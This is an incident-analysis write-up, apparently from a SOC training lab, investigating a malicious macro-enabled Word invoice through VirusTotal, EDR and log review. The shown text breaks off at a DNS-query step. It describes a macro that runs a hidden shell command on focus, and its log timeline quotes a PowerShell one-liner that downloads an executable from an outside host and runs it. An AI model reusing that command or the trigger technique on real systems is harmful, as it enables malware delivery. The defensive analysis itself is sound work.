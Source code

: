 <img width="2108" height="574" alt="virutotal" src="https://github.com/user-attachments/assets/0748f85c-4e38-44ec-8938-000f849a59d8" />

To begin the analysis, I looked up the file hash on **VirusTotal**. It was flagged as malicious by **33 out of 66 vendors**, indicating strong suspicion. Upon re-analysis, I uncovered the following:

> **Behavior Summary:**
> The document contains a macro in `ThisDocument.cls`. When a UI component (`GBjdshuiKJ`) receives focus, it silently runs a hidden shell command extracted from `TextBox1` on `UserForm1`.

💡 **Implication:** Just clicking a field in this document could trigger malware — no user interaction beyond opening the file.

---

## 🛠️ Step 1: Check Containment Status (EDR Review)

From the playbook, the first action was to verify if the malware had already been quarantined.

<img width="1886" height="568" alt="not quarantined" src="https://github.com/user-attachments/assets/d52a8cdc-af12-4663-a2e4-ee1c2f686eeb" />

* Using the IP `172.16.17.198`, I searched the **EDR (Endpoint Detection & Response)** page.
* **Finding:** The device (`Jayne`) was **not contained**.
* The **terminal history was empty**, suggesting no recent command-line activity (which could be a sign of evasion or delay).

---

## 🧾 Step 2: Timeline of Malicious Activity (Log Review)

### ✅ 1. **Initial Download (08:41 AM)**

<img width="1451" height="269" alt="1" src="https://github.com/user-attachments/assets/602ae528-3c26-4987-b774-0a72ec6d0c32" />

* **Event ID:** 11 – File Created
* **File:** `edit1-invoice.docm.zip`
* **Source Process:** `C:\Windows\Explorer.exe`
* Likely origin: **phishing email or malicious link**

### ✅ 2. **PowerShell Execution (08:42 AM)**

<img width="1427" height="241" alt="2" src="https://github.com/user-attachments/assets/a589fe85-cab4-48e6-a2f4-52296e6f554e" />

* **Event ID:** 4104 – Remote Command Executed
* **Command:**

```powershell
 (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe')
```

* **Process:** `powershell.exe`
* **Analysis:** Script downloads additional payload from a suspicious domain

### ✅ 3. **DNS Query**
